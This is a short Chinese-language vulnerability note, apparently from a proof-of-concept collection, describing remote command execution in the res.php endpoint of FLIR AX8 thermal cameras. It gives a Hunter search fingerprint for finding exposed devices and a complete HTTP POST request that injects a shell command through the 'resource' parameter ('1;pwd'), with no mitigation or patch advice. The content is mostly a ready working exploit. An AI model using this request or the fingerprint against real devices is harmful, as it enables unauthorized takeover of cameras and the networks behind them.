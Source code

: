 # FLIR-AX8热成像仪res.php存在远程命令执行漏洞

FLIR-AX8热成像仪res.php存在远程命令执行漏洞，允许攻击者在目标服务器上执行任意系统命令，可能导致服务器被完全控制、数据泄露或破坏，严重威胁系统安全。

## hunter

```javascript
web.icon=="f4370ff0b4763e18159cd7cdf36a4542"
```

## poc

```javascript
POST /res.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: *****
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 67

action=node&resource=1;pwd
```

![image-20240927202446271](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409272024333.png)
